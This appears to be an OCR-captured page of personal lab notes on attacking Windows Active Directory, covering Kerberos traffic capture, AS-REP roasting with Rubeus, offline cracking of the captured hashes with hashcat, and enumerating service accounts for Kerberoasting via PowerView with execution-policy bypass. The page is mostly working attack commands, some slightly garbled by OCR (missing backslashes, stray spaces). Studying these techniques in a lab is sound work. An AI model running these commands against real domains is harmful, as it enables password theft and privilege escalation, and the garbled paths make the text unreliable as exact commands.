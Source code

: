 
### EXPERIMENTS
> runas /user:FRIENDS\rgreen C:\Windows\system32\cmd.exe
> + domain login activity
> + AS-REQ / AS-REP (TGT generate) 
> + GS-REQ / TGS-REP (TGS generate) 

### WIRESHARK
```
ip.addr==192.168.174.140&&!dns
```

### AS-REP Roasting
```
-- Kerberos preauthentication enabled (default)
-- Kerberos preauthentication disabled (custom)
```
### Rubeus.exe asreproast
```
Rubeus.exe asreproast /format:hashcat /outfile:C:Temphashes.txt
hashcat64.exe -m 18200 c:Temphashes.txt example.dict
```

### POWERSHELL REMOTING

### DOMAIN PRIVILEGE ESCALATION

> KERBEROAST
> + named domain account
> + machine account passwords
> + service account must be a named domain user 
> + service accounts which are not using machine accounts

## FIND SERVICE ACCOUNTS

link(https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1)

> Powerview

> Get-NetUser -SPN
```
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} - Properties ServicePrincipalName
```

### FIND SERVICE ACCOUNTS (Get-NetUser -SPN)
```
powershell -ep bypass
.\PowerView.ps1
Get-NetUser -SPN
```

### FIND SERVICE ACCOUNTS (Get-ADUser)
```
.\Install-ActiveDirectoryModule.ps1
help Install-ActiveDirectoryModule.ps1 - Examples
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} - Properties ServicePrincipalName
```
